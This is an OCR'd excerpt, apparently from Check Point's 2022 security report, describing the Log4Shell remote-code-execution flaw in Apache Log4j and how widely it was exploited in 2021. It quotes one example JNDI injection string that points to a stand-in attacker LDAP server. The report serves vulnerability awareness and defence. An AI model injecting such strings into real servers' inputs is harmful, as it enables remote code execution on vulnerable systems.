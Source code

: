 HIGH PROFILE 
GLOBAL 
VULNERABILITIES

 MANY VULNERABILITIES DISCOVERED IN 2017 MAINTAINED 

A STRONG PRESENCE THROUGHOUT 2021 OVERSHADOWING 

THE NEWLY DISCOVERED ONES

5454

CHECK POINT SOFTWARE \| SECURITY REPORT 2022CHECK POINT SOFTWARE \| SECURITY REPORT 2022C H A P T E R 6

The following list of top vulnerabilities is based on data collected by the Check 

Point Intrusion Prevention System (IPS) sensor net and details some of the most 

popular and interesting attack techniques and exploits observed by Check Point 

researchers in 2021\.

‘LOG4SHELL’ APACHE LOG4J \- REMOTE CODE 
EXECUTION (CVE\-2021\-44228\)

Apache Log4j is an open\-source Java\-based logging package provided by the 

Apache Software Foundation, as part of the Apache Logging Services. It is the 

most popular Java logging library, used by millions of Java\-based applications 

worldwide to record activities such as routine system operations and error 

messages and to send diagnostics to system admins. On December 9, the Apache 

Foundation released an emergency Log4j version to address a critical flaw in the 

logging framework. This flaw enables threat actors to compromise a machine by 

sending it a simple string such as ‘${jndi:ldap://attacker\_server/path}’ as part of 

the HTTP request, User\-Agent or any other input likely being logged by the server 

using Log4j. By controlling the messages logged via the logging package, arbitrary 

code could be executed from a remote server. Called ‘Log4Shell’, the vulnerability 

took the security community by storm due to its far\-reaching effects on millions 

of companies, including Cisco, Twitter, Cloudflare, Tesla, Amazon and Apple, that 

use Log4j. Widespread exploitation of the flaw was observed almost immediately, 

both by low skilled attackers to distribute cryptominers, as well as by state 

sponsored APT groups, to gain access to corporate networks. According to Check 

Point Research approximately 48\.3% of organizations were affected by exploitation 

attempts of the Log4Shell Vulnerability in 2021\.

5555

CHECK POINT SOFTWARE \| SECURITY REPORT 2022CHECK POINT SOFTWARE \| SECURITY REPORT 2022C H A P T E R 6
